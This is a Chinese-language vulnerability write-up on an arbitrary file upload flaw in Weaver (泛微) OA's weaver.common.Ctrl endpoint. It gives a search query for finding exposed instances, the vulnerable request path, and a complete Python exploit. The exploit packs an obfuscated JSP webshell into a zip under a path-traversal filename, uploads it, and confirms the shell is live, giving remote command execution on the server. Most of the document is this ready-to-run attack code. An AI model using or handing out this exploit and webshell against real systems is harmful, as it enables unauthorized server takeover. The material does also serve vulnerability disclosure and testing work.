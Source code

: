 # 泛微OA weaver.common.Ctrl 任意文件上传漏洞

# 泛微OA weaver.common.Ctrl 任意文件上传漏洞

## 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器

## 漏洞影响

```
泛微OA
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

存在漏洞的路径为

```plain
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

请求包为

![image-20220209103936690](/images/202202091039784.png)

使用POC文件上传

![image-20220209103951582](/images/202202091039689.png)

## 漏洞POC

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("
<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)

def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
    else:
        print('未找到webshell利用失败')

def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        GetShell(url)
    else:
        print("python3 poc.py http://xx.xx.xx.xx")

if __name__ == '__main__':
    main()
```

## 参考文章

[原漏洞公开地址](https://github.com/GTX8090TI/GTX8090TI.github.io/blob/6dd04a19bbc4fcef436e0b2f05c15bc98ac0c852/2021/05/02/泛微OA-前台GetShell复现/index.html)


